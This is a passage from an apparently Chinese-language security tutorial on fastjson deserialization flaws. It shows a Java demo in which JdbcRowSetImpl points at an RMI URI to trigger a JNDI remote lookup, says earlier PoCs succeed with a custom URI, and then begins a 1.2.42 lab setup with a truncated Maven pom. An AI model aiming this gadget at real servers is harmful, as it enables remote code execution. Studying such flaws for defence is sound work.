 我们可以通过一个简单的小`demo`快速了解：

```plain
package org.example;
import com.sun.rowset.JdbcRowSetImpl;

public class Main {
    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl JdbcRowSetImpl_inc = new JdbcRowSetImpl();
        JdbcRowSetImpl_inc.setDataSourceName("rmi://127.0.0.1:1099/ift2ty");
        JdbcRowSetImpl_inc.setAutoCommit(true);
    }
}
```

[![](assets/1706233003-50acd973b2d776f061e8afcac12fdbaa.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240124170522-b4684c72-ba97-1.jpeg)  
所以之前的两种`poc`可以直接自定义`uri`利用成功。

## 3\. fastjson 1.2.42 反序列化漏洞

首先先下载`fastjson 1.2.25`：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>fastjson_1_2_42</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>

    <dependencies>
        <dependency>
```